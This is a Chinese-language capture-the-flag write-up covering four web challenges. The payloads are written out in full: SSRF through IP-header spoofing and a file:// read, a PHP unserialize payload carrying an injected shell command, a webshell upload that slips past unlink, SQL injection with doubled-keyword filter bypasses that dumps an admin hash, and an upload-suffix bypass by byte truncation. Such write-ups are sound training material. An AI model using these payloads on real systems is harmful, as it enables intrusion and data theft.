最近复习网工有点小累，，有点小炸
日常复盘学习不能落~~
加油
web1
源代码发现hint访问robots.txt有source.php，flag.php
访问source.php返回
1 | you need to login as admin!<!-- post param 'admin' --> |
POST:admin=1返回
1 | you need to login as admin!<!-- post param 'admin' -->only 127.0.0.1 can get the flag!! |
尝试各种IP头
1 | X-Forwarded-For: 127.0.0.1 |
发现X-Client-IP: 127.0.0.1返回
1 | you need to login as admin!<!-- post param 'admin' -->you need post url: http://www.ichunqiu.com |
POST：admin=1&url=http://www.ichunqiu.com返回
1 | you need to login as admin!<!-- post param 'admin' -->http://www.ichunqiu.com<img src="download/409352793;img1.jpg"/> |
可通过uri：download/409352793;img1.jpg访问
发现可通过file协议读取，构造payload
1 | admin=1&url=file://www.ichunqiu.com/../../../var/www/html/flag.php |

ssrf关键词
1 | share |
存在过滤的时候可以试试以下姿势:
1 | 1、@ |
web2

主页访问.index.php.swp发现源码，
1 | vi -r index.php //恢复index.php |
1 |
|
可以看到这是一个常规绕过加反序列的知识点
通过变量覆盖构造payload
1 | ?first=doller&a=var=give%26bbb=me%26ccc=flag |
然后通过POST传入反序列化值，
1 |
|
payload
1 | 3A4%3A%22come%22%3A2%3A%7Bs%3A12%3A%22%00come%00method%22%3Bs%3A4%3A%22echo%22%3Bs%3A10%3A%22%00come%00args%22%3Ba%3A1%3A%7Bs%3A4%3A%22host%22%3Bs%3A15%3A%22%60cat%24IFS%2Ffla%5Cg%60%22%3B%7D%7D |

web3
主页源码
1 |
|
1 | php > $a=array(); |
通过php/.绕过unlink函数，进行文件包含，保存至后台ext值仍为php，通过hehe参数（文件名）进行文件包含读取文件内容，可以上传这样一段webshell
1 | @ |
前六个字符要求强制为 @<?php
然后再通过hehe爆破文件名查看flag
上传页面html
1 |
|


web4

首页sql注入，过滤了一些字符，from和select被替换为空字符，通过加空置换payload
1 | id=-1' or (selselectect 1)# |

payload
1 | -1' unifromon selselectect (seselectlect database()),2# |

1 | -1' unifromon selselectect (seselectlect group_concat(table_name) frfromom information_schemafrom.tables where table_schema=database()),2# |

1 | -1' unifromon selselectect (seselectlect group_concat(column_name) frfromom information_schemafrom.columns where table_schema='web' and table_name='user'),2# |

1 | -1' unifromon selselectect (seselectlect concat_ws(char(32,58,32),id,username,password) frfromom web.user),2# |

注入出
1 | content=str_replace($value,"",$content)1 : admin : e3274be5c857fb42ab72d786e281b4b8 |

密码为adminpassword
登录进入到上传文件页面，发现要上传名为flag.php的文件
但禁止上传php文件，且上传的文件名会被加入.txt后缀名

发现上传的文件名由uploaddir和fileField连接组成，并可以通过%02截断进行绕过txt后缀添加

上传成功

参考链接